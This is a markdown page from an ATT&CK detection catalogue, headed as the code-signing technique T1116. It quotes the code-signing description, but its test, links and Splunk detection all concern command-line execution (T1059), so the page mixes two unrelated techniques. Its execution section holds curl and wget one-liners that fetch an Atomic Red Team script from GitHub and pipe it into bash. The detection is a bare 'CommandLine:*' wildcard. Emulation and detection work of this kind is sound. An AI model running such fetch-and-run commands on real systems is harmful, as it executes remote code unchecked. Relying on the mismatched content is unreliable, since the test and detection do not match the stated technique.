 # T1116 - Code Signing
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1059)
<blockquote>
Code signing provides a level of authenticity on a binary from the developer and a guarantee that the binary has not been tampered with. [1](https://en.wikipedia.org/wiki/Code_signing) However, adversaries are known to use code signing certificates to masquerade malware and tools as legitimate binaries [2](http://www.thesafemac.com/new-signed-malware-called-janicab/). The certificates used during an operation may be created, forged, or stolen by the adversary. [3](https://securelist.com/why-you-shouldnt-completely-trust-files-signed-with-digital-certificates/68593/),[4](https://www.symantec.com/connect/blogs/how-attackers-steal-private-keys-digital-certificates)

Code signing to verify software on first run can be used on modern Windows and macOS/OS X systems. It is not used on Linux due to the decentralized nature of the platform. [1](https://en.wikipedia.org/wiki/Code_signing)

Code signing certificates may be used to bypass security policies that require signed code to execute on a system.
</blockquote>

## Assumptions
Attacker or local user has access to command propmpt or powershell

## Execution:
[Test using Atomic Red Team](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1059/T1059.md)

<blockquote>
```
bash -c "curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059/echo-art-fish.sh | bash"
bash -c "wget --quiet -O - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Atomics/T1059/echo-art-fish.sh | bash"
```
</blockquote>

or any commandline or powershel command

## Detection:
* Monitor CommandLine activity (including powershell)
* [Read Mitre ATT&CK for more Detection info](https://attack.mitre.org/wiki/Technique/T1059)

### Visibility
* Windows event log
* Enable Commandline audit
* Command line / Powershell activity

### Filter / Correlation in Splunk
Following catch both comandline and powershell, although they can be separated in two. 

```
"CommandLine:*"
```

![Splunk Detection](https://github.com/avaplex/dpi911/blob/master/images/T1059.JPG)
